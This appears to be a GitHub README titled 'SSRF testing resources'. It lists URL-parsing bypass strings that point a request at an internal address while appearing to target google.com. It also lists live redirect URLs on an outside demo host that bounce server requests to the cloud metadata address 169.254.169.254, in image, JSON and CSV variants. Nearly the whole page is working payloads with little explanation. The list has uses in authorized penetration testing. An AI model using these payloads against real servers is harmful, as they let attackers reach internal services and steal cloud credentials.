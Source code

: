 <a href="https://www.buymeacoffee.com/cujanovic" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


# SSRF (Server Side Request Forgery) testing resources

***

### Quick URL based bypasses:
`http://google.com:80+&@127.88.23.245:22/#+@google.com:80/`

`http://127.88.23.245:22/+&@google.com:80#+@google.com:80/`

`http://google.com:80+&@google.com:80#+@127.88.23.245:22/`

`http://127.88.23.245:22/?@google.com:80/`

`http://127.88.23.245:22/#@www.google.com:80/`

`http://google.com:80\\@127.88.23.245:22/`

***

### htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml, pdf
#### Live demo:
jpg 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-without-body-md/301-http-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body-md/301-http-.i.jpg`


json 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-without-body-md/301-http-.j.json`

`https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-with-body-md/301-http-.j.json`


csv 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/csv-without-body/301-http-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-without-body-md/301-http-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body-md/301-http-.c.csv`

